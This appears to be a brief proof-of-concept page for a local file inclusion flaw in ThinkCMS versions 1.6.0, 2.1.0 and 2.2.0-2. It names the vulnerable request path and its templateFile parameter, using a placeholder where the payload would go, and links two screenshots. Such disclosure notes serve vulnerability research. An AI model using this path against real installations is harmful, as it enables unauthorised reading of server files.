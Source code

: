 ```yaml
---
title: cms-poc
---
```


## ThinkCMS LFI v1.6.0/2.1.0/2.2.0-2

Poc:
/?a=display&templateFile={LFI Payloads}
## ![2021_02_12_image.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47c8230693-a6e1-4596-9576-d1d5819fd2692021_02_12_image.png?Expires=4766662363&Signature=QvyMnW0k1ktoKtVWVdwzn7ivUKdLd33TACOkIMyIEwwIxzsAMfRtUdUG748IthyvovWC-GFxJQk3937LWErEchxIv~X0fxaR6R86lno0nkXaH9QDxLIiA~qZz4O2faJ2IdtynOLcP-U809HIpFKuZcrNbtcw1MVRS5f-4rVYcvKboycU2OzrGAF~EwBkfOf1Q1GZ4H-cQ8wRC9opc4F1EW0KhFxUGbdWxKy-SydWKEN1bhf8wqQWmFJ~ZfMdOSOKSwBXGRmYfaDy0hvE0McoCtzkNncKHmBWfa1K75aFvU09IBc-WPTANYI-yS~j2EhzKcMVti07hF-A4mz3jdHAqw__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA)
## ![2021_02_12_image.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef479765e1da-bb60-40ae-8efa-6cd2804b1d572021_02_12_image.png?Expires=4766662374&Signature=i~6R5pedZMQ8Un1qd83GpWWrdSMJwv2DhWHd10~-7QyTS~JYDmc8DIcgp7gGwEmfFg~foyWGBjVlZe0qae9kAFKnK2wb-04jlm9lO2BBfGkyuXedw~V0AWjQL3LZnDXJslYU3dHlU34BOsLhxxttUqgTtpRGsZHxefBRL-jvyEhtmQGXwTCdjkfr-YeSznKVczyRWZtkP0wHqNapgu2ylobZS7Tkj4dJN7tTw-T652BqVqGR5-Mjf8tVAFjxpkF~4kuM26xeq97hYc6R1AHUmbaFRd7Af9a~gCrZopgETyMeYF8AcnuanfchT2~OMHhPGAZuPmFEbNyDLgwiKb0-eg__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA)
